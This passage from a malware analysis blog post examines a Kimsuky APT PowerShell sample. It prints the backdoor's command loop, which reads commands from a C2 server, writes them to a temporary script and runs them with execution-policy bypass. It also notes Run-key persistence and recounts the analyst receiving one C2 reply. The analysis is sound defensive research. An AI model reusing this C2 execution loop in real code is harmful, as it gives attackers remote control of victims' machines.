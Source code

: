 &rarr; The script creates a TCP connection to the C2 server on port 7032. It continuously reads input from the C2 server using the $reader and sends output using the $writer.
```powershell
	$cmd = $reader.ReadLine()
    if($cmd.Length -ne 0)
    {
	    $tmpz = "c:\programdata\tmps2.ps1"
	    $cmd | Out-File $tmpz
        
        powershell -ep bypass -f $tmpz;
        del $tmpz;
    }
    Sleep(20);
}

```
&rarr; The script reads commands from C2 server and the commands are written to a temporary file(tmps2.ps1). The command is later on executed  through powershell. Like earlier cleanup of the temporary file is done. The script listens for new commands every 20 seconds.

### Not The End
&rarr; ***From the moment I first encountered Kimsuky APT, I was intrigued by their operations. Their tactics, techniques, and persistence had always fascinated me, but I never had the chance to interact directly with them. However, this time was different. For the first time, they acknowledged my presence with a simple yet telling message from their side. It was a subtle but clear sign that the conversation had finally begun...***

But before that let's see what happens when we run the script in our VM in order to verify our findings.

- On running the sample we can check the registry keys inside **HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Winload**. This key was used for persistence in one of the VBS scripts to register a task that runs the .vbs file at startup

![REG](https://cdn-images-1.medium.com/v2/resize:fit:800/1*XEZ9aHYCa1v6MzmJ8IfGSw.png "REG")

- These were the files that were dropped, verifying our findings. 
![VT](https://cdn-images-1.medium.com/v2/resize:fit:800/1*nx3bWOv-ryTRIo31o8ZS5g.png "VT")


- *Last but not the least* - Like the nutjob I am, I left my VM connected to internet for 13 hours anticipating that maybe we see a reply from the C2 server. Remember that the response from C2 server will be written in a file called **tmps2.ps1**. I changed the code a bit to prevent it from auto deleting after getting the response. And there it was after roughly 6 hours of running the initial sample, the file was dropped and there it was the reply I was always hankering for. What did they send ?
![DP](https://cdn-images-1.medium.com/v2/resize:fit:800/1*BECfwgeJPizCjp8jm68Guw.png "DP")

<details><summary>Click to reveal spoiler</summary></details>
- Yes this is the command I received from the C2 but unfortunately nothing further was received. Soon it was silence, the connection fizzled out, leaving nothing more than traces of digital dust and that one lingering message. And just like that, the window into their world closed.
